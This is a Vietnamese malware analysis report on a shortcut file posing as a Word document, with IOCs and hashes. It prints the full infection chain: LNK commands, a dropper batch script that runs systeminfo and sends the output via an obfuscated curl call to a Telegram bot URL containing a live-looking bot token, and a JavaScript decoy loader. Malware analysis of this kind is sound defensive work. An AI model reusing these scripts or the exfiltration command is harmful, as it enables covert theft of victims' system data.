






# BÁO CÁO PHÂN TÍCH MÃ ĐỘC SHORTCUT KITAGAWA

> Mẫu mã độc `"Report_Project_KPT5_080423.docx.lnk"` và mật khẩu giải nén: `infected`.

## Mục lục

- [A. Tổng quan chung về mẫu mã độc](#a-tổng-quan-chung-về-mẫu-mã-độc)
- [B. Phân tích hành vi chi tiết của mẫu mã độc](#b-phân-tích-hành-vi-chi-tiết-của-mẫu-mã-độc)
- [C. IOC và khuyến cáo](#c-ioc-và-khuyến-cáo)
- [D. References](#d-references)

## A. Tổng quan chung về mẫu mã độc

- Phân tích tĩnh mẫu mã độc thu được thông tin như sau:

  - Mẫu mã độc là file shortcut link được chỉnh sửa lần cuối vào khoảng thời gian `Sunday, December 17, 2023, 7:53:56 PM` (Đây có thể là khoảng thời gian mã độc được tạo ra).
  - SHA1 Hash của mẫu mã độc: `3f054f02e810122fc4f5b659c6141a14aae0113a`.

  

- Sơ đồ tổng quan hành vi của mã độc:

  

## B. Phân tích hành vi chi tiết của mẫu mã độc



- Kiểm tra đường dẫn được thực thi của file shortcut ta thu được chuỗi các lệnh shell script như sau:

  ```bat
  %comspec% /c @echo off
  & find "MARIN" *x.lnk | find "MARIN" > %public%\Kitagawa.bat
  & %comspec% /c ren Report_Project_KPT5_080423.docx.lnk O
  & %comspec% /c copy O %public%\Kitagawa.bin>nul
  & %comspec% /c ren O Report_Project_KPT5_080423.docx.lnk
  & %comspec% /c
  ```

- Là 1 file .lnk docx nhưng phần `Shortcut\Target` lại là đường dẫn thực thi script nghi ngờ và do giới hạn ký tự nên dùng tools https://github.com/EricZimmerman/LECmd để trích xuất toàn bộ script:

  

```bat
%comspec% /c @echo off
& find "MARIN" *x.lnk |find "MARIN" > %public%\Kitagawa.bat
& %comspec% /c ren Report_Project_KPT5_080423.docx.lnk O
& %comspec% /c copy O %public%\Kitagawa.bin>nul
& %comspec% /c ren O Report_Project_KPT5_080423.docx.lnk
& %comspec% /c %public%\Kitagawa.bat
& FOR /F "delims=" %i IN ('dir /b %tmp%^|find "KPT5"')
DO (@echo off & %comspec% /c more %tmp%\%i\*x.lnk|find "MARIN">> "%public%\Kitagawa.bat"
& %comspec% /c ren %tmp%\%i\Report_Project_KPT5_080423.docx.lnk o.a
& %comspec% /c copy "%tmp%\%i\o.a" "%public%\kitagawa.bin"
& %comspec% /c ren "%tmp%\%i\o.a" Report_Project_KPT5_080423.docx.lnk)
& %comspec% /c %public%\Kitagawa.bat
```

- Đoạn mã batch script này thực hiện một số thao tác trên các tệp `.lnk` và tạo hoặc thay đổi một số tệp và thư mục. Dưới đây là phần giải thích chi tiết về các hoạt động của script này:

  - 1. **Tìm kiếm chuỗi "MARIN" trong các tệp `.lnk` và tạo `Kitagawa.bat`:**

    ```batch
    @echo off
    & find "MARIN" *x.lnk |find "MARIN" > %public%\Kitagawa.bat
    ```

    - Phần này tắt việc hiển thị các lệnh đang thực thi và tìm kiếm chuỗi "MARIN" trong tất cả các tệp `.lnk` trong thư mục hiện tại. Kết quả tìm kiếm được chuyển hướng vào tệp `Kitagawa.bat` trong thư mục công cộng (`%public%`).

  - 2. **Đổi tên một tệp `.lnk` cụ thể và sao chép nó:**

    ```batch
    & %comspec% /c ren Report_Project_KPT5_080423.docx.lnk O
    & %comspec% /c copy O %public%\Kitagawa.bin>nul
    & %comspec% /c ren O Report_Project_KPT5_080423.docx.lnk
    ```

    - Các lệnh này đổi tên tệp `Report_Project_KPT5_080423.docx.lnk` thành `O`, sao chép tệp `O` vào `Kitagawa.bin` trong thư mục công cộng, và sau đó đổi tên `O` lại thành `Report_Project_KPT5_080423.docx.lnk`.

  - 3. **Thực thi script `Kitagawa.bat`:**

    ```batch
    & %comspec% /c %public%\Kitagawa.bat
    ```

    - Lệnh này chạy script `Kitagawa.bat` đã được tạo ở bước 1.

  - 4. **Xử lý các tệp trong thư mục `%tmp%` chứa "KPT5" và tìm kiếm chuỗi "MARIN" trong các tệp `.lnk`:**

    ```batch
    & FOR /F "delims=" %i IN ('dir /b %tmp%^|find "KPT5"')
    DO (@echo off & %comspec% /c more %tmp%\%i\*x.lnk|find "MARIN">> "%public%\Kitagawa.bat"
    & %comspec% /c ren %tmp%\%i\Report_Project_KPT5_080423.docx.lnk o.a
    & %comspec% /c copy "%tmp%\%i\o.a" "%public%\kitagawa.bin"
    & %comspec% /c ren "%tmp%\%i\o.a" Report_Project_KPT5_080423.docx.lnk)
    ```

    - Vòng lặp `FOR` này xử lý mỗi thư mục trong thư mục `%tmp%` chứa "KPT5". Đối với mỗi thư mục tìm thấy, nó sẽ:

      - Tìm kiếm chuỗi "MARIN" trong các tệp `.lnk` và thêm kết quả vào `Kitagawa.bat`.
      - Đổi tên tệp `Report_Project_KPT5_080423.docx.lnk` thành `o.a`.
      - Sao chép tệp `o.a` vào `kitagawa.bin` trong thư mục công cộng.
      - Đổi tên `o.a` lại thành `Report_Project_KPT5_080423.docx.lnk`.

  - 5. **Thực thi lại script `Kitagawa.bat` đã được cập nhật:**

    ```batch
    & %comspec% /c %public%\Kitagawa.bat
    ```

    - Lệnh này chạy lại script `Kitagawa.bat` đã được cập nhật.

- Sau khi double click file shortcut, vào thư mục `%public%` để tìm kiếm các `IOC` liên quan thì chỉ còn thấy 1 file word `Report_Project_KPT5_080423.docx`.

  

- Có thể khi chạy script file `%public%\Kitagawa.bat` các `IOC` liên quan đã bị xóa đi nên thực hiện chạy lại trên cmd những lệnh sau (không thực thi file `%public%\Kitagawa.bat` ở cuối):

  

- Thu thêm được hai IOC `Kitagawa.bat` và `Kitagawa.bin` (Trong đó file `Kitagawa.bin` chính là file `Report_Project_KPT5_080423.docx.lnk` ban đầu), kiểm tra file bat script:

  ```bat
  @echo off %MARIN%
  copy "C:\windows\system32\wscript.exe" "%public%\wscript.exe">nul %MARIN%
  cmd /c find "%public:~0,1%UTE" "%public%\Kitagawa.bin" |find "%programdata:~0,1%UTE" > "%public%\Kitagawa.js" 2>&1 %MARIN%
  start /min "%public%\wscript.exe" "%public%\Kitagawa.js" 2>&1 >nul %MARIN%
  systeminfo > "%public%\%UserName%_systeminfo.txt" 2>&1 %MARIN%
  c%public:~10,1%rl -s -X POST -F document=@"C:\Users\Public\%UserName%_systeminfo.txt" -F chat_id=-4043111076 https://api.telegram.org/bot6949120863:AAGX1W8-96GwzxZfQieXhRXJPPH7172vKzk/sendDocument --ssl-no-revoke 2>&1 >nul %MARIN%
  del "C:\Users\Public\%UserName%_systeminfo.txt" 2>&1 >nul %MARIN%
  del "%public%\Kitagawa.js" 2>&1   %MARIN%
  del "%public%\wscript.exe" 2>&1 %MARIN%
  del "%public%\Kitagawa.bin" 2>&1  %MARIN%
  del "%public%\Kitagawa.bat" 2>&1  %MARIN%
  ```

- Tiến hành phân tích từng phần:

  - 1.  `@echo off %MARIN%`:

    - Tắt hiển thị lệnh trong cửa sổ Command Prompt.
    - `%MARIN%` không có nghĩa gì đặc biệt trong ngữ cảnh này và có thể bị bỏ qua.

  - 2.  `copy "C:\windows\system32\wscript.exe" "%public%\wscript.exe" > nul %MARIN%`:

    - Sao chép `wscript.exe` từ thư mục hệ thống Windows đến thư mục công cộng.
    - `> nul` chuyển hướng đầu ra để không hiển thị thông báo sao chép.

  - 3.  `cmd /c find "%public:~0,1%UTE" "%public%\Kitagawa.bin" | find "%programdata:~0,1%UTE" > "%public%\Kitagawa.js" 2>&1 %MARIN%`:

    - Chạy lệnh tìm kiếm `find` với mẫu `%public:~0,1%UTE` trong tệp `Kitagawa.bin` và chuyển hướng kết quả qua một lệnh `find` khác với mẫu `%programdata:~0,1%UTE`.
    - Kết quả được ghi vào `Kitagawa.js`.
    - `2>&1` chuyển hướng thông báo lỗi vào đầu ra chuẩn.

  - 4.  `start /min "%public%\wscript.exe" "%public%\Kitagawa.js" 2>&1 > nul %MARIN%`:

    - Khởi động `wscript.exe` để chạy `Kitagawa.js` dưới chế độ minimized.
    - `2>&1 > nul` chuyển hướng thông báo lỗi và đầu ra chuẩn vào `nul`.

  - 5.  `systeminfo > "%public%\%UserName%_systeminfo.txt" 2>&1 %MARIN%`:

    - Chạy lệnh `systeminfo` và ghi kết quả vào tệp `%UserName%_systeminfo.txt` trong thư mục công cộng.
    - `2>&1` chuyển hướng thông báo lỗi vào đầu ra chuẩn.

  - 6.  `c%public:~10,1%rl -s -X POST -F document=@"C:\Users\Public\%UserName%_systeminfo.txt" -F chat_id=-4043111076 https://api.telegram.org/bot6949120863:AAGX1W8-96GwzxZfQieXhRXJPPH7172vKzk/sendDocument --ssl-no-revoke 2>&1 > nul %MARIN%`:

    - Giả định đây là lệnh `curl` được sử dụng để gửi tệp `%UserName%_systeminfo.txt` đến một chat ID trên Telegram.
    - `--ssl-no-revoke` bỏ qua kiểm tra SSL.
    - `2>&1 > nul` chuyển hướng thông báo lỗi và đầu ra chuẩn vào `nul`.

  - 7.  `del "C:\Users\Public\%UserName%_systeminfo.txt" 2>&1 > nul %MARIN%`:

    - Xóa tệp `%UserName%_systeminfo.txt`.
    - `2>&1 > nul` chuyển hướng thông báo lỗi và đầu ra chuẩn vào `nul`.

  - 8.  `del "%public%\Kitagawa.js" 2>&1 %MARIN%`:

    - Xóa tệp `Kitagawa.js`.
    - `2>&1` chuyển hướng thông báo lỗi vào đầu ra chuẩn.

  - 9.  `del "%public%\wscript.exe" 2>&1 %MARIN%`:

    - Xóa tệp `wscript.exe` trong thư mục công cộng.
    - `2>&1` chuyển hướng thông báo lỗi vào đầu ra chuẩn.

  - 10. `del "%public%\Kitagawa.bin" 2>&1 %MARIN%`:

    - Xóa tệp `Kitagawa.bin`.
    - `2>&1` chuyển hướng thông báo lỗi vào đầu ra chuẩn.

  - 11. `del "%public%\Kitagawa.bat" 2>&1 %MARIN%`:
    - Xóa tệp `Kitagawa.bat`.
    - `2>&1` chuyển hướng thông báo lỗi vào đầu ra chuẩn.

- Tóm lại, khi `%public%\Kitagawa.bat` được thực thi thì thực hiện các bước sau:

  - 1. Tắt hiển thị lệnh trong Command Prompt.
  - 2. Sao chép wscript.exe từ thư mục hệ thống Windows đến thư mục công cộng.
  - 3. Chạy lệnh tìm kiếm với `find` và ghi kết quả vào `Kitagawa.js`.
  - 4. Chạy `wscript.exe` để thực thi `Kitagawa.js` dưới chế độ minimized.
  - 5. Thu thập thông tin hệ thống bằng lệnh `systeminfo` và ghi vào tệp `"%public%\%UserName%_systeminfo.txt"`.
  - 6. Gửi tệp thông tin hệ thống qua Telegram.
  - 7. Xóa các tệp IOC liên quan `Kitagawa.js`, `wscript.exe`, `Kitagawa.bin` và `Kitagawa.bat`.

- Để thu được các IOC liên quan bị xóa, thực hiện xóa các dòng `del` và thực thi lại script `"%public%\Kitagawa.bat"`.

  

- Phân tích file `Kitagawa.js` thì thấy hành vi khi mã độc khi thực thi mã javascript là nằm tạo file `"%public%\Report_Project_KPT5_080423.docx"` từ file `"%public%\Kitagawa.bin"` và mở nó lên nhằm đúng logic mở file docx từ shortcut.

```javascript
(function () {
  var objShell = new ActiveXObject("WScript.Shell");
  var tmpPath = "C:\\Users\\Public";
  tmpPath = tmpPath + "\\";
  var lnkPath = "C:\\Users\\Public\\Kitagawa.bin";
  Shishishi(lnkPath, 3823, 90689, tmpPath + "Report_Project_KPT5_080423.docx");
  objShell.Run('"' + tmpPath + "Report_Project_KPT5_080423.docx" + '"', 1, 0);

  function Mumumomo(path, offset, size) {
    var stream;
    var binaryStream;
    binaryStream = [];
    stream = new ActiveXObject("ADODB.Stream");
    stream.Type = 1;
    stream.Open();
    stream.LoadFromFile(path);
    stream.Position = offset;
    for (var i = 0; i < size; i++) {
      binaryStream.push(stream.Read(1));
    }
    stream.close();
    return binaryStream;
  }

  function Gojo_kun(path, binaryStream, size) {
    var stream;
    stream = new ActiveXObject("ADODB.Stream");
    stream.Type = 1;
    stream.Open();
    for (var i = 0; i < size; i++) {
      stream.Write(binaryStream[i]);
    }
    stream.SaveToFile(path, 2);
    stream.close();
  }

  function Shishishi(lnkPath, index, size, name) {
    var FileByte = Mumumomo(lnkPath, index, size);
    Gojo_kun(name, FileByte, size);
  }
})(); //CUTE
```

> Tóm lại hành vi của mã độc khi double click vào file `Report_Project_KPT5_080423.docx.lnk` bao gồm:

- Thu thập thông tin hệ thống bằng lệnh `systeminfo` và ghi vào tệp `"%public%\%UserName%_systeminfo.txt"`.
- Sau đó sử dụng API Telegram gửi tệp `"%public%\%UserName%_systeminfo.txt"` đến bot telegram có địa chỉ https://api.telegram.org/bot6949120863:AAGX1W8-96GwzxZfQieXhRXJPPH7172vKzk/sendDocument .
- Xóa hết các tệp IOC liên quan, chỉ để lại file `"%public%\Report_Project_KPT5_080423.docx"` và mwor nó lên nhằm thực hiện đúng logic mở file docx từ shortcut.

## C. IOC và khuyến cáo

- Thông tin của mã độc:

| Filename                            | SHA1                                     |
| ----------------------------------- | ---------------------------------------- |
| Report_Project_KPT5_080423.docx.lnk | 3f054f02e810122fc4f5b659c6141a14aae0113a |
| Kitagawa.bin                        | 3f054f02e810122fc4f5b659c6141a14aae0113a |
| Kitagawa.bat                        | 2240c255c60ff0c54c9be685e3b788b0e8caf21d |
| Kitagawa.js                         | 247e5caac9f509ea50d798b8fb52fee2ea708f21 |
| Report_Project_KPT5_080423.docx     | 3c77cc4e4d4acf82f823b2052b5a8ba273938dcc |

- Địa chỉ IOC C2C và phương thức sử dụng:
  - `-s -X POST`: Sử dụng phương thức POST để gửi yêu cầu HTTP.
  - `-F chat_id=-4043111076`: ID của chat trong Telegram.
  - URL C2C: `https://api.telegram.org/bot6949120863:AAGX1W8-96GwzxZfQieXhRXJPPH7172vKzk/sendDocument` .

## D. References

- Mẫu mã độc chưa được ghi nhận trên https://www.virustotal.com/
